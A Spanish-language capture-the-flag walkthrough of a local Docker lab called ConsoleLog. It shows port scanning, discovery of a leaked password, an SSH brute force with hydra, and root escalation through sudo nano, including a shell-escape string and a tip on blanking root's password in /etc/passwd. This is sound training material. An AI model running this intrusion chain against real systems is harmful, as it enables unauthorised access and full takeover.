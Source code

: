 - Tags: #ConsoleLog
---
[Mquina ConsoleLog](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to) ==>Enlace de descarga al laboratorio.
```bash
7z x consolelog.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh consolelog.tar # Desplegamos el laboratorio
```

#### Fase Reconocimiento:
```bash
172.17.0.2 --> Direccion IP del target
ping -c 1 172.17.0.2

wichSystem.py 172.17.0.2 # Estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```
---

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p80,3000,5000 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**(  80/tcp   open  http    Apache httpd 2.4.61 ((Debian)) )** ==> Tenemos un servicio web desplegado en el puerto 80
**( Apache httpd 2.4.61 ((Debian)) )** ==> En la web **launcPad** determinamos que estamos ante una version de **debianSid**
**( 3000/tcp open  http    Node.js Express framework )** ==> Framework web de **js**
**( 5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) )** ==> Tenemos un servicio ssh desplegado en el puerto 5000

#### Fase Reconocimiento Web:
```bash
http://172.17.0.2/ --> # Ingresamo al servicio, donde tenemos un boton en fase beta

whatweb http://172.17.0.2 # No nos representa informacion critica, Asi mismo wappalyzer nos reporta que desde le backend se esta ejecutando php
http://172.17.0.2 [200 OK] Apache[2.4.61], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.61 (Debian)], IP[172.17.0.2], Script, Title[Mi Sitio]
```

Realizamos descubrimiento de rutas:
```bash
dirb http://172.17.0.2 # Nos reporta lo siguiente
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash # Realizamos descubrimiento de rutas:

/backend/             (Status: 200) [Size: 1563]  # Tenemos capacidad de directoryListing
/javascript/          (Status: 403) [Size: 275]
```
---
**( <script src="[authentication.js](view-source:http://172.17.0.2/authentication.js)"></script> )** ==> Tenemos desde el codigo fuente este enlace que parece llevar a un panel de autentificacion.
**( /backend )** ==> En su archivo de configuracion encontramos, **( lapassworddebackupmaschingonadetodas )** ==> Tenemos una posible contrasena filtrada, Lanzamos una peticion con el siguiente comando.

```bash
curl -s -X POST http://172.17.0.2:3000/recurso/ -H 'Content-Type: application/json' -d '{"token": "tokentraviesito"}'
lapassworddebackupmaschingonadetodas # nos retorna esto.
```

Realizaremos un ataque de fuerza bruta con **hydra** al servicio ssh que esta desplegado en el puerto 5000 para ver si logramos detectar algun usuario
```bash
 hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas -t 64 -s 22 -f ssh://172.17.0.2:5000 # Logrando detectar a este posible usuario.
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh lovely@172.17.0.2 -p 5000
```

#### Fase Escalada Privilegios.
```bash
sudo -l

User lovely may run the following commands on 6c673a12be19: # Tenemos una via potencial de elevar privielgios.
    (ALL) NOPASSWD: /usr/bin/nano
```

Tenemos capacidad de ejecutar este binario con privilegios:
```bash
sudo -u root /usr/bin/nano # Despues realizaremos las siguientes instrucciones para obtener una bash como root

^R^X
reset; sh 1>&0 2>&0
```

Tenemos control total sobre el sistema
**Nota:** ==> Tambien podiamos usar nano para sobreescribir el archivo: **( /etc/passwd )** y quitarle la: **( x )** al usuario root. para loguearnos sin proporcionar password.